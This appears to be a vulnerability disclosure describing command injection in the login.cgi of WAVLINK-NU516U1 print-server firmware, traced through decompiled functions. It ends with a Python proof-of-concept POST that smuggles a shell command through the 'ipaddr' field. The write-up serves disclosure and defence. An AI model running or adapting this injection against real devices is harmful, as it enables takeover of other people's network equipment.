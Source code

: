Vulnerability Overview

Wavlink is a company dedicated to network devices and communication solutions, offering high-quality routers, extenders, and network accessories. The firmware of its WAVLINK-NU516U1 model, which functions as a printer server network card, has a command injection vulnerability in its login interface, allowing attackers to execute authorized commands.

Details of the vulnerability

After unpacking the firmware, locate the login.cgi program. Open it in IDA under the main function. In the main (displayed as ftext in IDA) function, compare whether it is a normal login request. Normal login requests are handled by the function sub_4012A0.


<img width="994" height="651" alt="image" src="https://github.com/user-attachments/assets/40c49ea5-14a4-4f5d-8763-bf295a10baee" />

In the function sub_4012A0, the parameter value of ipaddr is retrieved and assigned to v9.

<img width="942" height="408" alt="image" src="https://github.com/user-attachments/assets/9b619bf6-afe7-4396-ae75-3c32a6868467" />

After the login verification is successful, obtain the parameter value of v9 and concatenate it to the parameter v31 used for system execution.

<img width="1341" height="342" alt="image" src="https://github.com/user-attachments/assets/334a86e9-70a3-4bcd-bdca-14808e9d7c82" />


poc

```
import requests

url = "http://192.168.1.2/cgi-bin/login.cgi"

headers = {
    "Host": "192.168.1.2",
    "Cache-Control": "max-age=0",
    "Upgrade-Insecure-Requests": "1",
    "Origin": "http://192.168.1.2",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Referer": "http://192.168.1.2/",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "en-US,en;q=0.9",
    "Connection": "close"
}

data = {
    "newUI": "1",
    "page": "login",
    "username": "admin",
    "langChange": "0",
    "ipaddr": "192.168.1.1$( echo 1 >/poc.txt)",
    "login_page": "login.shtml",
    "homepage": "main.shtml",
    "sysinitpage": "sysinit.shtml",
    "wizardpage": "wizard.shtml",
    "hostname": "192.168.1.2",
    "key": "M90920320",
    "lang_select": "en",
    "password": "admin",
    "password_vlaue": "7a72c504b83ee9da9d2d22eb83248670"
}
resp = requests.post(url, headers=headers, data=data)

print(resp.status_code)
print(resp.headers)
print(resp.text)
```



















